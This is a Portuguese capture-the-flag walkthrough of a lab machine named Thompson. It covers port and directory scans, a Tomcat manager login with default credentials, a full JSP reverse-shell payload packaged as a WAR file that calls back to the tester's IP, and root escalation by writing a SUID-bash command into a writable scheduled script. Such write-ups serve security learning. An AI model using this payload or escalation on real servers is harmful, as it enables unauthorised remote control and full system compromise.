# _**Thompson**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Vamos investigar o site na porta 8080 com um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos visitar primeiro, <mark>favicon.ico</mark>  

  
Apenas o ícone do Tomcat

Vamos para os 2 que parecem ser os mais importantes, <mark>/manager</mark> e <mark>/host-manager</mark>  



Uma senha é requisitada  
Como não tenho conhecimento de usuário e senha, apenas clico em cancelar. Isso me leva a uma página de erro  



Podemos observar o seguinte:  
* usuário: <mark>tomcat</mark>  
* senha: <mark>s3cret</mark>

Vamos tentar as credenciais básicas de login   



## _**Ganhando acesso**_
Das aplicações listadas, temos uma especificamente que chama a atenção
> /hgkFDt6wiHIUB29WWEON5PA

Vamos acessar  
Nada encontrado  
Outra situação que chama atenção é a possibilidade de fazer upload de arquivos do tipo _.war_  
Podemos criar um destes arquivos para obter um _shell reverso_ com <mark>netcat</mark>  

Primeiro, vamos montar o script _.jsp_
>
```bash
<%@ page import="java.io.*, java.net.*" %>
<%
	String host = "10.9.2.138"; // seu IP
	int port = 4444;    	// porta que você vai escutar
	String cmd = "/bin/sh"; // para Linux (se for Windows, seria "cmd.exe")
    
	Socket socket = new Socket(host, port);
	Process process = new ProcessBuilder(cmd).redirectErrorStream(true).start();
    
	InputStream pi = process.getInputStream(), pe = process.getErrorStream(), si = socket.getInputStream();
	OutputStream po = process.getOutputStream(), so = socket.getOutputStream();
    
	while (!socket.isClosed()) {
    	while (pi.available() > 0) so.write(pi.read());
    	while (pe.available() > 0) so.write(pe.read());
    	while (si.available() > 0) po.write(si.read());
    	so.flush();
    	po.flush();
    	Thread.sleep(50);
    	try {
        	process.exitValue();
        	break;
    	} catch (Exception e) {
    	}
	}
	process.destroy();
	socket.close();
%>
```
>

Agora, vamos enviar tudo para uma pasta de nome _**meushell**_  
Vamos criar uma segunda pasta com nome _**WEB-INF**_ e colocar um arquivo _.xml_
>
```
<web-app>
	<servlet>
    	<servlet-name>meushell</servlet-name>
    	<jsp-file>/meushell.jsp</jsp-file>
	</servlet>
	<servlet-mapping>
    	<servlet-name>meushell</servlet-name>
    	<url-pattern>/meushell.jsp</url-pattern>
	</servlet-mapping>
</web-app>
```
>

Vamos usar o comando ```jar -cfv meushell.war *``` para empacotar nossos arquivos  
Em seguida, vamos realizar upload do arquivo para o site  



Após, usamos ```netcat``` para esperarmos uma conexão  
E por fim, acessamos o site http://[ip_address]:8080/meushell/reverse_shell.jsp  



Assim, obtemos um _shell reverso_  
E também, a primeira _flag_  



## _**Escalando privilégios**_
Agora para _root.txt_, vamos precisar escalar privilégios  
Por se tratar de uma shell “pobre”, não podemos executar comandos como ```sudo -l``` para verificar permissões  

Investigando o usuário Jack, do qual podemos verificar seus arquivos, encontramos em sua _/home_  
2 arquivos que parecem ser importantes: _id.sh_ e _test.txt_  
Dando o comando ```cat``` no primeiro, temos a execução de um script e se dermos ```cat``` no segundo, é retornado o ```id```  

  

Verificando as permissões de ambos arquivos, temos:  

  

Podemos alterar o arquivo _id.sh_  
Vamos executar estes dois comandos abaixo para conseguirmos acesso _root_
> ```bash
> echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /home/jack/id.sh
> ```
> ```bash
> chmod +x /home/jack/id.sh
> ```

O primeiro modifica _id.sh_ para criar um _binário SUID_  
O segundo dá permissões de execução, porém, essa parte não acontece  
Vamos então, novamente executar ```cat``` no arquivo _id.sh_ e em seguida, ```/tmp/rootbash -p```  



E assim, obtemos a segunda _flag!_
